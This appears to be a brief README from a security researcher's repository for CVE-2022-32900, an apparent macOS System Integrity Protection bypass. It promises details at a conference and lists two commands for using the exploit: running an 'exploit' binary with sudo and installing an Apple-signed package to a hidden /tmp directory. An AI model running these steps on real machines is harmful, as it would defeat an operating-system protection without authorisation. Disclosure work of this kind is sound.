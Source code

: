 # CVE-2022-32900

Details will be shared at OBTS v7.0, stay tuned

# Exploit
- Run the `exploit` program with root, e.g., `sudo
./exploit /tmp/sip_bypass /Library/Apple/sip_bypass`
- Install the Apple-signed pkg: `sudo installer -pkg PagesEndNote.pkg -target /tmp/.exploit`
